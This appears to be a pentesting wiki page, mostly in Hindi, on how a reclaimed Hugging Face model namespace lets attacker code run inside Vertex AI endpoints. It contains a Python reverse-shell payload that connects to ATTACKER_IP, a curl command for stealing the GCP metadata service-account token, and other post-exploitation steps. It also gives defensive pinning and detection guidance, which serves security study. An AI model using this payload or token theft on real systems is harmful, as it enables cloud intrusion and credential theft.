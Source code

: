 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## परिदृश्य

- Vertex AI Model Garden कई Hugging Face (HF) models की प्रत्यक्ष तैनाती की अनुमति देता है।
- HF model identifiers are Author/ModelName. यदि HF पर कोई author/org हटाया जाता है, तो वही author नाम कोई भी व्यक्ति फिर से रजिस्टर कर सकता है। Attackers फिर legacy path पर वही ModelName रखते हुए एक repo बना सकते हैं।
- Pipelines, SDKs, या cloud catalogs जो सिर्फ नाम से ही fetch करते हैं (no pinning/integrity), attacker-controlled repo को खींच लेंगे। जब model deploy होगा, उस repo का loader code Vertex AI endpoint container के अंदर execute हो सकता है, जिससे endpoint’s permissions के साथ RCE मिल सकती है।

HF पर दो सामान्य takeover मामले:
- Ownership deletion: पुराना path 404 लौटाता है जब तक कोई author को फिर से रजिस्टर करके वही ModelName प्रकाशित न करे।
- Ownership transfer: HF पुरानी Author/ModelName से नए owner की तरफ 307 redirects देता है। अगर पुराना author बाद में delete हो जाता है और attacker द्वारा फिर से रेजिस्टर कर लिया जाता है, तो redirect chain टूट जाती है और attacker का repo legacy path पर serve करने लगता है।

## Reusable Namespaces (HF) की पहचान

- Old author deleted: author का page 404 लौटाता है; model path takeover तक 404 लौट सकता है।
- Transferred models: पुराना model path पुराने author के मौजूद रहने पर नए owner की ओर 307 भेजता है। अगर पुराना author बाद में delete हो जाए और फिर re-register हो जाए, तो legacy path attacker के repo पर resolve हो जाएगा।

curl के साथ त्वरित जाँच:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Vertex AI के खिलाफ अंत-से-अंत हमला प्रवाह

1) उन reusable model namespaces की खोज करें जिन्हें Model Garden deployable के रूप में सूचीबद्ध करता है:
- HF models खोजें जो Vertex AI Model Garden में अभी भी “verified deployable” के रूप में दिखते हैं।
- HF पर सत्यापित करें कि मूल author हटाया गया है या model transfer किया गया था और पुराना author बाद में हटाया गया था।

2) HF पर हटाए गए author को फिर से रजिस्टर करें और वही ModelName पुन: बनाएं।

3) एक malicious repo प्रकाशित करें। उस code को शामिल करें जो model load पर execute होता है। उदाहरण जो आमतौर पर HF model load के दौरान execute होते हैं:
- repo के __init__.py में side effects
- config/auto_map द्वारा संदर्भित custom modeling_*.py या processing code
- ऐसे code paths जिन्हें Transformers pipelines में trust_remote_code=True की आवश्यकता होती है

4) legacy Author/ModelName का Vertex AI deployment अब attacker repo को pull करता है। loader Vertex AI endpoint container के अंदर execute होता है।

5) Payload endpoint environment (RCE) से access स्थापित करता है जो endpoint की permissions के साथ होता है।

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
नोट्स
- वास्तविक दुनिया के loaders अलग-अलग होते हैं। कई Vertex AI HF integrations मॉडल की config में संदर्भित repo modules को clone और import करते हैं (जैसे auto_map), जो code execution ट्रिगर कर सकते हैं। कुछ उपयोगों के लिए trust_remote_code=True आवश्यक हो सकता है।
- Endpoint आम तौर पर एक समर्पित container में सीमित scope के साथ चलता है, लेकिन यह GCP में डेटा एक्सेस और lateral movement के लिए एक वैध प्रारंभिक foothold हो सकता है।

## Post-Exploitation Tips (Vertex AI Endpoint)

एक बार code endpoint container के अंदर चलने लगे, तो इन पर विचार करें:
- environment variables और metadata को enumerate कर के credentials/tokens देखें
- attached storage या mounted model artifacts तक पहुँच
- service account identity के माध्यम से Google APIs के साथ इंटरैक्ट करना (Document AI, Storage, Pub/Sub, आदि)
- अगर platform repo को फिर से pull करता है तो model artifact में persistence

यदि पहुंच योग्य हो तो instance metadata enumerate करें (container dependent):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Vertex AI उपयोगकर्ताओं के लिए रक्षात्मक मार्गदर्शन

- HF loaders में commit द्वारा मॉडल को पिन करें ताकि बिना सूचना के प्रतिस्थापन रोका जा सके:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- परीक्षित HF models को एक भरोसेमंद internal artifact store/registry में मिरर करें और वहां से deploy करें।
- लगातार codebases और configs को स्कैन करें ताकि hard-coded Author/ModelName जो deleted/transferred हैं मिल सके; उन्हें नए namespaces में अपडेट करें या commit द्वारा pin करें।
- Model Garden में, deployment से पहले मॉडल की provenance और author के मौजूद होने की सत्यापना करें।

## पहचान हीयूरिस्टिक्स (HTTP)

- Deleted author: author page 404; legacy model path 404 until takeover।
- Transferred model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content।
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## संबंधित संदर्भ

- विस्तृत कार्यप्रणाली और आपूर्ति-श्रृंखला टिप्पणियाँ देखें:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## संदर्भ

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
